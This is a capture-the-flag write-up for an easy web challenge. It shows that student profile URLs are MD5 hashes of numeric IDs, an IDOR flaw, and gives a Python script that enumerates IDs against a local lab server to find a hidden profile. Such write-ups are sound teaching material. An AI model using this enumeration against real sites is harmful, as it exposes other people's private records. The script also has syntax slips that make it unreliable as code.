









## WRITEUP - OBSCURA
-   Level : **Easy**

-   Category: **Web**

- Description : A university recently launched an online portal to showcase student profiles.
Seven profiles are listed, each with basic information (photo, name, class, graduation date).

However, something seems off... rumors say a hidden profile is guarding a secret.

Can you uncover it?

Note : Flag is in format of FLAG{************}

-------------------------------------------------
## 1 - Reconnaissance

- Visiting the homepage :

We see a list of student profiles displayed.

- First reflex: check the page source to see if anything interesting is hidden there. 

Unfortunately, nothing useful was found.

-   However, on the homepage, we notice a potential <code>hint</code>:

- Let’s take a closer look at one student profile:

Hummm... We notice that the URL path contains what looks like a <code>hash.</code>

- Verifying other profiles :

Same pattern everywhere. For example, the profile of<code>Imane Z.</code> has ID = 7.un <code>Let’s check the hash on <code> https://crackstation.net/ </code>

Bingo 🎯 — it resolves to 7, and the hash is indeed in <code>MD5</code> format.

-   So the application simply takes the numeric ID of the student and transforms it into MD5, then uses it as the profile URL.
-   This is a classic Insecure Direct Object Reference (IDOR) vulnerability.

- What is IDOR?
IDOR (Insecure Direct Object Reference) happens when an application exposes internal identifiers (like IDs, filenames, or keys) in a way that attackers can manipulate to access unauthorized resources.

------------------------------------------
## 2 - Exploitation

- The goal now is to <code>find the correct ID</code> that contains the hidden flag.

- Doing it manually would take too long, so let’s automate it with a Python script.

We asked ChatGPT to generate one:

- It gave us :

<pre> 
    import hashlib
    import requests
    import re

    BASE_URL = "http://127.0.0.1:5000"

    Regex pour matcher le flag
    flag_pattern = re.compile(r"FLAG\{.*?\}")

    //Tester les ID de 0 à 100
    for i in range(101):
        # Calcul du hash MD5
        md5_hash = hashlib.md5(str(i).encode()).hexdigest()
        url = f"{BASE_URL}/{md5_hash}"

        try:
            response = requests.get(url, timeout=5)

            if response.status_code == 200:
                match = flag_pattern.search(response.text)
                if match:
                    print(f"[✅] Flag trouvé ! ID: {i} | Hash: {md5_hash}")
                    print(f"[🎯] {match.group()}")
                    break
                else:
                    print(f"[ ] Pas de flag pour ID {i} (hash: {md5_hash})")
            else:
                print(f"[⚠️] Erreur HTTP {response.status_code} pour ID {i} (hash: {md5_hash})")

        except requests.RequestException as e:
            print(f"[⛔] Exception pour ID {i}: {e}")
</pre>

-   Running the script:

-    After a few seconds, the script finds the <code>correct ID and hash</code>:

The hidden profile is at **ID = 55.**

-   Visiting it confirms the presence of the **FLAG:**

